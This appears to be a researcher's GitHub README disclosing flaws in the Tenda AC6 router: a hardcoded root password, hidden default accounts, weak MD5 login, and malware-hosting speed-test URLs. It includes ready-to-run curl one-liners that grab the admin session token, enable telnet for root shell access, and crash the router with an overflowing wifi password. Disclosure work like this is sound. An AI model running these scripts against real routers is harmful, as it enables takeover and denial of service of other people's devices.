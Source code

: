 <table>
<tr>
	<td colspan=2><b><h2 align=center>Equipment Overview
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_174832.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_175341.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20201024_163850.jpg">
<tr>
	<td colspan=1> <b>Router: 
	<td colspan=1>Tenda AC1200 (Model AC6) Smart Dual Band WiFi Router
<tr>
	<td colspan=1><b>Firmware Version:
	<td colspan=1>V15.03.06.51_multi 
<tr>
	<td colspan=1><b>Linux Version:
	<td colspan=1>Linux linux-e06efcf50f50 3.10.90 #5 Thu Oct 8 17:04:23 CST 2020 mips GNU/Linux
<tr>
	<td colspan=1><b>GCC Version:
	<td colspan=1>4.4.7
<tr>
	<td colspan=1><b>Busybox Version:
	<td colspan=1>v1.19.2
<tr>
	<td colspan=1 width=25%><b>Busybox Functions:
	<td colspan=1>[, [[, adduser, arp, arping, ash, awk, brctl, cat, chmod, clear, cp, cttyhack, cut, date, deluser, depmod, echo,
        egrep, eject, env, expr, false, fdisk, fgrep, free, grep, halt, ifconfig, init, insmod, kill, killall, killall5,
        linuxrc, ln, login, ls, lsmod, mdev, mkdir, modinfo, modprobe, more, mount, mountpoint, mv, netstat, nslookup,
        passwd, ping, ping6, poweroff, printf, ps, pstree, pwd, reboot, reset, rm, rmdir, rmmod, route, runlevel, sed, sh,
        sleep, softlimit, split, sulogin, tar, telnet, telnetd, test, tftp, top, touch, traceroute, traceroute6, true, tty,
        umount, uname, unzip, uptime, usleep, vconfig, vi, wget, yes
<tr>
	<td colspan=1><b>Sys Type: 
	<td colspan=1>RTL8197F
<tr>
	<td colspan=1><b>Hardward Access: 
	<td colspan=1>SPI, UART
<tr>
	<td colspan=1><b>SPI Flash:
	<td colspan=1>25Q64JVSIQ (<a href="https://github.com/cecada/Tenda-AC6-Root-Acces/blob/main/docs/w25q64jv%20spi%20revc%2006032016%20kms.pdf">Spec Sheet</a>)
<tr>
	<td colspan=1><b>HTTP Admin Access: 
	<td colspan=1>192.168.0.1 (default) or 192.168.1.1
</table>

Found issues: 

* CVE-2020–10988 overview: root password is Fireitup, and static. This vulnerability persists to this model and version.
* HTTP admin access has a static username (admin)
* Admin password is only secured with a simple MD5 hash
* Default speed test settings located on mtdbblock5 point to urls which download malware:
  * speedtest.addr.list7=sh.vnet.cn/downloads/elive1.16.exe?0.4812286039814353 ([Hybrid Report](https://www.hybrid-analysis.com/sample/4c15a77c71218d7feef52d9c5504c0d32d8e580819186a4bb708d3c120e7b15e))
  * speedtest.addr.list6=viewer.d.cnki.net/CNKI%20E-Learning%202.4.1-20140714.exe ([Hybrid Report](https://www.hybrid-analysis.com/sample/bfa165373e5f5ed6ba4e73440bc9bb94d6089d8edb784db5a4a011d8ee87f790/5f8440c84e139b56f00f0728))
* Default system accounts (admin, support, user, and nobody) are hidden from the HTTP admin console, have shell access, and all have 1234 as the password.
* It is possible to form an HTTP post will result in a denial of service by causing the router to crash and enter a boot loop.

<h2>Logging in / Getting Admin Password</h2>

Router admin is done via a web portal which is defaulted to 192.168.0.1. The only credentials which is asked for is the password. The username appears to be static admin. Prior to the HTTP POST request the client hashes the password using MD5. A sample curl would look like:

```
curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest'
-H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4'
--url 'http://192.168.0.1/login/Auth'
```
2a3ffeeda250174eaeba880553e0dfd4 = mathafter067

This results in 301 redirect to main.html, and of critical importance, a cookie is set with the hash + a pseudo-random 6 byte string. For example: 2a3ffeeda250174eaeba880553e0dfd4<b>piacvb</b> With this "token" we can do a lot of harm. 

Given the simplicity of authentication, the acceptance, and auto-population of default password, creating a brute-force script to find the password, and thus the MD5 hash is trivial.

Why is this a problem? I mean, if you have admin creds shouldn't you be able to turn on telnet? Perhaps. However, on this model the admin user interface does not have an interface for this. I have read some other model do. This seems to be an API access that wasn't intended for this model.

<h2>Turning on Telnet</h2>
With this router, telnet is not on by default. I discovered a method, once you are connected and brute-forced the admin password you can turn it on without having to physically access the hardware. 

```
ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' 
-H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' 
--url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk -X 'GET' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' 
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H "Cookie: password=$ahash" -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' 
-H 'Connection: close' --url 'http://192.168.0.1/goform/telnet'; echo -e "\n\nSuccess!"; telnet 192.168.0.1; fi
```
Because I am lazy, I created a "one-liner" which will:
* Grab the "token"
* Check for success
* Turn on telnet
* Launch telnet

Telnet will ask for the username/password which is root/Fireitup
Device R00ted with no access to the hardware needed

<h2>Denial of Service: Crash it</h2>
Once you have brute forced the admin password it is possible to send an HTTP POST request which will trigger a crash, and result in a boot-loop.

```
overflow=$(perl -e 'print "A" x 1024');ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' 
--data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' --url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); 
if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk 
-X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' 
-H 'Referer: http://192.168.0.1/wireless_ssid.html?random=0.54930120660236&' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' -H “Cookie: password=$ahash” -H 'Sec-GPC: 1' -b "password=$ahash" 
--data-binary "wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FC6EE0&ssid_5g=Tenda&hideSsid=0&hideSsid_5g=0&wrlPwd=$overflow&wrlPwd_5g=mathafter067" 
--url 'http://192.168.0.1/goform/WifiBasicSet';fi
```
Like the telnet vuln, I scripted this out. 
* Generate an overflow string
* Get login "token"
* Check if the login was a success or not
* If it was, post overflow string as a setting change to the wifi password

The router will crash, and only a physical hard factory reset will restore it. 

<table>
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201441.png"> 
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201653.png"> 
</table>
